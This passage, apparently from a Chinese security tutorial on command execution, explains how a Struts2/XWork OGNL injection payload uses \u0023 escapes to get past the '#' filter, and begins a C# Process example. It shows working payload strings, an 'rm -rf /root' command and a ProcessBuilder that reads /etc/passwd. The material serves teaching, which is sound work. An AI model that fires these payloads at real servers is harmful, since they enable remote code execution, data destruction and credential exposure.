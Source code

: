 XWORK 也有自己的保护机制，比如，为了防范篡改服务器端对象，XWork 的ParametersInterceptor 拦截器不允许参数名中出现“#”字符，但如果使用了Java 的unicode 字符串表示 (\u0023)，攻击者就可以绕过保护：

```
?(’\u0023_memberAccess[‘allowStaticMethodAccess’]’) (meh) =true&amp; (aaa) ((’\u0023context[\ ‘xwork.MethodAccessor.denyMethodExecution’]\u003d\u0023foo’) (\u0023foo\u003dnew%20java.lang.Boolean(“false”)))&amp;(asdf)((’\u0023rt.exit(1)’)(\u0023rt\u003d@java.lang.Runtime@getRuntime()))=1
```

转义后的值如下：

```
?(’#_memberAccess[‘allowStaticMethodAccess’]’) (meh) =true&amp; (aaa) ((’#context[\ ‘xwork.MethodAccessor.denyMethodExecution’]=#foo’)(#foo=new%20java.lang.Boolean(“false”)))&amp;(asdf)((’#rt.exit(1)’)(#rt\u003d@java.lang.Runtime@getRuntime()))=1
```

OGNL 处理时最终的结果就是：

java.lang.Runtime.getRuntime().exit(1);<br>
类似的可以执行如下语句：

```
java.lang.Runtime.getRuntime().exec(“net user”);
java.lang.Runtime.getRuntime().exec(“rm -rf /root”);
```

**触发途径**

通过对一系列的struts2的poc观察，一般是通过修改StaticMethodAccess或是创建ProcessBuilder对象。

```
#_memberAccess["allowStaticMethodAccess"]=true // 用来授权允许调用静态方法
或
new java.lang.ProcessBuilder(new java.lang.String[]`{`'cat','/etc/passwd'`}`)).start()
```

### **C#**

**<a class="reference-link" name="%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C-Process%E7%B1%BB"></a>命令执行-Process类**

C#的Process类提供对本地和远程进程的访问权限并能够启动和停止本地系统进程。

下面的示例使用类的实例 [Process](https://docs.microsoft.com/zh-cn/dotnet/api/system.diagnostics.process?view=net-5.0) 来启动进程。

```
using System;
using System.Diagnostics;
using System.ComponentModel;

namespace MyProcessSample
`{`
    class MyProcess
    `{`
        public static void Main()
        `{`
            try
            `{`
                using (Process myProcess = new Process())
                `{`
                    myProcess.StartInfo.UseShellExecute = false;
                    // 我们可以启动任何进程，HelloWorld是一个不执行任何操作的示例。
                    myProcess.StartInfo.FileName = "C:\\HelloWorld.exe";
                    myProcess.StartInfo.CreateNoWindow = true;
                    myProcess.Start();
                    // 这段代码假定我们正在启动的进程将自行终止。
                    // 因为它在没有窗口的情况下启动，所以不能在桌面上终止它。
                    // 它必须自行终止，或者我们可以在这个应用程序中使用Kill方法
                    // 以编程的方式完成它。
```